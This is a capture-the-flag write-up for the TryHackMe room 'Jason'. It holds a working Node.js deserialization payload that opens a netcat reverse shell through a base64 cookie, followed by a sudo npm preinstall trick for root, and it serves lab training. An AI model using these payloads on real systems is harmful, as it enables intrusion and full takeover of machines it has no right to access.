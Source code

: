 ```yaml
---
title: Jason - Writeup
author: Elman Alizadeh
date: 2022-04-27 14:10:00 +0800
categories: [ctf, TryHackMe]
tags: [tryhackme, jason]
---
```


Today we will take a look at TryHackMe: Jason. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/thm-jason/1.jpeg" | relative_url }})

## Network scan

Command: sudo nmap -sS -sC -sV -oN nmap/initial 10.10.192.78

![Desktop View]({{ "/assets/img/thm-jason/1.png" | relative_url }})

## Website enum
Let’s take a look at the website.

![Desktop View]({{ "/assets/img/thm-jason/2.png" | relative_url }})

Let’s enter something and look at the query with burp

![Desktop View]({{ "/assets/img/thm-jason/3.png" | relative_url }})

And we see it is built with node js . I figured there would be a vulnerability related to json & node.js . So I researched a bit and found out there is a RCE vulnerability .

[NodeJs](https://book.hacktricks.xyz/pentesting-web/deserialization#nodejs)

I have prepared such a code for operation.

```console
{“email”:”test”,”rce”:”_$$ND_FUNC$$_function(){ require(‘child_process’).exec(‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $IP 4444 >/tmp/f’, function(error, stdout, stderr) { console.log(stdout) }); }()”}
```

Since we have to use cookies, I encrypt with base64.

![Desktop View]({{ "/assets/img/thm-jason/4.png" | relative_url }})

Let’s paste to the cookie and listen.

![Desktop View]({{ "/assets/img/thm-jason/5.png" | relative_url }})

When we refresh the page, we get a shell.

![Desktop View]({{ "/assets/img/thm-jason/6.png" | relative_url }})

## Privilege Escalation

Comman: sudo -l

Let’s exploit

[npm](https://gtfobins.github.io/gtfobins/npm/)

Command: TF=$(mktemp -d)

Command: echo ‘{“scripts”: {“preinstall”: “/bin/bash”}}’ > $TF/package.json

Command: sudo /usr/bin/npm -C $TF --unsafe-perm i

![Desktop View]({{ "/assets/img/thm-jason/7.png" | relative_url }})

# And now we are the root

![Desktop View]({{ "/assets/img/thm-jason/1.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”







